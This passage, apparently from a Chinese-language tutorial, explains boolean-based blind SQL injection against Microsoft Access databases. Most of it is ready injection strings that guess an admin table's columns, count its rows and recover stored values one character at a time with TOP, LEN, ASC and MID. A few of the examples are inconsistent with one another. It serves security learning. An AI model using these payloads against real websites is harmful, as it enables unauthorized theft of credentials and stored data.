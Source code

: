 
猜测字段也是一样，只能通过枚举来猜测 

判断有admin表后，再**判断admin表有多少列**，假如1-10正常查询，11列报语法报错，那说明有10列

```
and exists(select * from admin order by 10)
```



判断出存在的列数后，再**判断具体的列名**。以下语句判断是否存在name列，如果存在，正常查询，如果不存在，则报语法错误。然后再通过枚举列名爆破

```
and exists(select name from admin)
```



猜测完表名和字段名后，我们就看看这个**表里面有多少行数据** ，如果>99查询正确，>100查询错误(这里是查询错误，而不是语法错误)，说明有100行数据

```
and (select count(*) from information)>100
```



然后在猜测每个字段具体的数据了 

access数据库中没有 limit，就不能限制查询出来的行数。但是我们可以使用top命令，top 1是将查询的所有数据只显示第一行，所以 top3就是显示查询出来的前三行数据了

```
猜测admin列的第一个数据的长度，如果大于5查询不出数据，大于4正常，说明admin列的第一个数据长度是5
and (select top 1 len(admin)from admin)>5

猜测admin列的第一行数据的第一个字符的ascii码值，如果大于97查询不出数据，大于96正常，说明admin列的第一行数据的第一个字符的ascii值是97
and (select top 1 asc(mid(admin,1,1))from admin)>97 
第一行数据的第二个字符
and (select top 1 asc(mid(admin,2,1))from admin)>97 

从第二行开始，查询数据就得用另外的语句了,因为这里的top只能显示查询前几条数据，所以我们得用联合查询，先查询前两条，然后倒序，然后在找出第一条，这就是第二条数据。
查询第二行admin列的长度
and (select top 1 len(admin)  from ( select top 2 * from information order by id)  order by id desc)>55
下面是查询第2条数据的第3个字符
and (select top 1 asc(mid(admin,3,1))  from ( select top 2 * from information order by id)  order by id desc)>55
查询第三条数据的第4个字符
and (select top 1 asc(mid(admin,4,1))  from ( select top 3 * from information order by id)  order by id desc)>55
```

注：在access中，中文也可以用**asc函数**来表示，

例如：asc(mid("中国",1)) 表示 中 字的ascii值，可以用 **chr** （将ascll码变为对应值）来逆向得出值

```
asc("中") = -10544
chr(-10544) = 中
```

​	
